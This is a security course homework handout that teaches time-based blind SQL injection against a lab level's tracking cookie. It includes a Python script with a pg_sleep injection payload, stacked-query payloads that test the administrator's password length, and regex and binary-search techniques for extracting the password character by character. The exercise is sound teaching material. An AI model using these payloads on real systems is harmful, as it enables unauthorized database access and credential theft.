

In this homework, you will be solving a Blind SQL injection level using a Python script that implements a binary search. To begin with, in your course repository, create the directory below and cd into it.
cd <path_to_your_git_repository>
mkdir hw2
cd hw2Then, create a requirements.txt file that contains the requests package.
requestsSet up your environment in the directory
virtualenv -p python3 env
source env/bin/activate
pip install -r requirements.txtThen, visit the lab and launch the level.
In the level, the web application uses a tracking cookie in order to identify a particular user visiting the site. To perform the tracking, the backend server inserts the cookie value into a backend SQL database. If the SQL code for inserting and looking up cookie values in the backend SQL database is vulnerable to SQL injection, then crafting a cookie that contains syntax that can break the vulnerable insertion code may allow an adversary to execute SQL commands, if the cookie's value is not sanitized. While the results of the query might not be exposed directly through the web application, a Blind SQL injection attack is still possible.
Using an Incognito window, bring up the browser's Developer Tools and visit the level site. When one visits the site for the first time, a session cookie and a tracking cookie are set. Find the "Application" tab and view the cookies for the page in order to see the names and values of the cookies that are used to perform session identification and user tracking. Make a note of the name of each cookie.

While we don't know the actual query being performed, we can demonstrate injection by inserting a single-quote in the value of our cookie followed by SQL code that can indicate we've performed a successful injection. Create the Python script below in a file called hw2.py in your hw2 directory, replacing the <FMI> with the name of the tracking cookie. The program implements a function that accesses the level site specified using a cookie that contains a specified string. Timing code is then pulled from the response to measure how long the request took to execute and returned from the function.
import requests, sys
site = sys.argv[1]
if 'https://' in site:
site = site.rstrip('/').lstrip('https://')
url = f'https://{site}/'
def test_cookie(cookie_string):
cookie_data = {
'<FMI>' : cookie_string
}
resp = requests.get(url,cookies=cookie_data)
return(resp.elapsed.total_seconds())
elapsed = test_cookie("x")
print(f"""Request "x" returned in {elapsed}""")
elapsed = test_cookie("x' || pg_sleep(3) -- ")
print(f"""Request "x' || pg_sleep -- " returned in {elapsed}""")The program tests 2 query strings. Both queries use a bogus cookie value x. However, the second cookie attempts to break syntax by inserting a single quote to run a PostgreSQL function that sleeps for 3 seconds.
Run the code and validate that you have leveraged the BlindSQL injection vulnerability to perform the sleep.
python hw2.py <Level_URL> ...
Then, add, commit and push this initial script and its requirements.txt into your repository
git add .
git commit -m "Initial script"
git pushOnce we have a successful SQL injection, we can then use it to test arbitrary conditions in the backed database. One test we can do is to find the length of the administrator's password. Consider the Python snippet below that breaks syntax, then injects a URL-encoded semicolon (%3B) to end the initial SQL statement and run a subsequent PostgreSQL command. The subsequent command performs the PostgreSQL version of an if statement via "select case". Assuming user information is kept in a table called users and that the table contains columns for the username and password for each user, then to find the length of the administrator's password we can brute-force a range of lengths to find it.
for num in range(32):
if test_cookie(f"""x'%3Bselect case when (username = 'administrator' and length(password) = {num}) then pg_sleep(3) else pg_sleep(0) end from users--""") > 3:
print(f'Length is {num}')
breakModify your Python program to return the length of the administrator's password. Note that you may need to restart the level if it has timed out before running your script. Once you have successfully modified the script to find the length of the password, add, commit and push it into your repository.
git add .
git commit -m "Find length"
git pushNote that the code above uses a linear search of all lengths. A more efficient approach would be to perform a binary search using < and > tests for the length. While we will be doing such a binary search for the password value itself, you may find implementing a binary search for the password length a good warm up exercise to do before continuing.
PostgreSQL databases support a range of query operators. We can use these operators in the injection to reveal arbitrary information contained within the database without directly observing the results of the injected query. For example, PostgreSQL supports the ~ operator as well as the SIMILAR TO operator for regular expression matching. Such expressions allow one to specify matches on string patterns in a programmatic way.
We will start with the ~ operator for POSIX regular expressions. Key to a program that uses this operator will be the ^ operator for denoting the beginning of a string and the $ operator for denoting the end of it. Consider the case where the administrator's password is 'abc'. If we replace the length check from the previous program with various regular expressions, we can then glean incremental information on the password itself.
password ~ 'b' // True since password contains b in it
password ~ '^a' // True since password begins with a
password ~ 'c$' // True since password ends with c
password ~ '^a$' // False since password is not a
password ~ '^abc$' // True since password is abcThe SIMILAR TO operator has slightly different semantics. Rather than matching any part of the string, it matches the entire string. Key to a program that uses this operator will be the % for denoting a wildcard matching any sequence of characters. Examples are shown below again using a password of 'abc'.
password SIMILAR TO 'b' // False password not b
password SIMILAR TO 'a%' // True password begins with a
password SIMILAR TO '%c' // True password ends with c
password SIMILAR TO 'a' // False password is not a
password SIMILAR TO 'abc' // True password is abcMore documentation on the SIMILAR TO operator can be found here
Choose one of either the ~ or the SIMILAR TO operators or the substring() function and modify your hw2.py program to perform a brute-force attack on the administrator's password that reveals the password one character at a time using it.
Ensure that your program does the following:
string.ascii_lowercase + string.digits or abcdefghijklmnopqrstuvwxyz0123456789)password ~ '^password-candidate$' or password SIMILAR TO 'password-candidate')python hw2.py o o8 o8d o8dj o8djb . . . o8djbi8zzqhu546up o8djbi8zzqhu546upw o8djbi8zzqhu546upwq o8djbi8zzqhu546upwqh Done. Found o8djbi8zzqhu546upwqh Time elapsed is 406.07183370000001
Once working, add, commit and push it into your repository.
git add .
git commit -m "Linear search"
git pushThe prior program checked candidate characters one at a time. We can apply binary search to reduce the amount of queries required to reveal the password. To do so, we will use the range syntax within regular expressions. Specifically, the square brackets ([ ]) and range syntax (char1-char2) specify a range of characters. Again consider the case where the administrator's password is 'abc'.
Using the range expression with the ~ operator, we then have the following:
password ~ '^[a-z]' // True since password begins with lowercase letter
password ~ '^a[a-z]' // True since password begins with a and a lowercase letter
password ~ '^[0-9]' // False since password does not begin with a digitUsing the range expression with the SIMILAR TO operator, we then have the following:
password SIMILAR TO '[a-z]%' // True password begins with lowercase letter
password SIMILAR TO 'a[a-z]%'// True password begins with a and a lowercase letter
password SIMILAR TO '[0-9]%' // False password does not begin with a digitThe range syntax allows us to split the search space of characters allowing us to speed up the execution of our attack. Take the first character as an example. Creating a charset to be all the candidate characters used in the password, we can calculate the middle of the set (mid)
charset = string.ascii_lowercase + string.digits
mid = len(charset) // 2We can then perform two queries to check which half of the charset the first character resides in via the regular expressions below:
password ~ '^[{charset[:mid]}]' –-
password ~ '^[{charset[mid:]}]' --Likewise, we can do the same with the SIMILAR TO operator.
password SIMILAR TO '[{charset[:mid]}]%' --
password SIMILAR TO '[{charset[mid:]}]%' -- When used in a program, it is unnecessary to check both halves of the search space as done above. If the character is found in one half, it can't be in the other. If a character is not found in one half, it must be in the other. A search algorithm would take the range that has the character in it, split it in half, and run a subsequent query on one of the halves to continue the search Note that if one picks a half of a range that does not match, the next query will split the opposite half for the next round of querying.
For example, for finding the first character (say 'm'), a scenario might have the following rounds of querying on the 'abcdefghijklmnopqrstuvwxyz0123456789' (assuming the ~ operator is used)
^[abcdefghijklmnopqr] results in a match^[abcdefghi] does not match (char in [jklmnopqr])^[jklm] results in match^[jk] does not match (char in [lm])^[l] does not matchm^m$Now that we have the first character, we can continue the process for the next character of the password. To do so, using the initial example, since we know that the first character is m, our regular expression can now be updated as shown below:
^m[abcdefghijklmnopqr]As the example shows, we eliminate half of the search space each time we do a query. This allows us to perform a binary search on the first character of the password. Rather than taking O(n) operations where n is the size of the search space, it will now take O(log n).
Modify hw2.py to implement a program that reveals the password of the administrator account using a binary search algorithm.
Your program requirements are the same as the linear search program
string.ascii_lowercase + string.digits or abcdefghijklmnopqrstuvwxyz0123456789)password ~ '^password-candidate$' or password SIMILAR TO 'password-candidate')In addition, for this version, your program must:
def run_test(login, password, url, num_tests):
"""Records timing data for an individual attack
Args:
login (str): login to test
password (str): password to test
url (str): URL to test
num_tests (int): number of tests to run
Returns:
float: Average time taken across tests
"""